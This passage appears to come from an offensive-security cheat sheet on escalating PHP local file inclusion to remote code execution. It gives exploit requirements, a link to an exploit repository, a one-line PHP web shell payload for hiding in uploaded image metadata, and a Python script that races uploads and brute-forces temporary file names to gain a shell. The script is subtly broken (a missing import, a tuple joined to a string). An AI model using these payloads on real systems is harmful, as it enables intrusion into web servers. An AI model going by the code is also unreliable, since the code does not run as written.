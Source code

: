 
**Requirements**:

* PHP 7.0.0 (2015) to 8.3.7 (2024)
* GNU C Library (`glibc`) <=  2.39
* Access to `convert.iconv`, `zlib.inflate`, `dechunk` filters

**Exploit**:

* [ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/tree/main)


## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf


## LFI to RCE via upload (race)

* Upload a file and trigger a self-inclusion.
* Repeat the upload a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

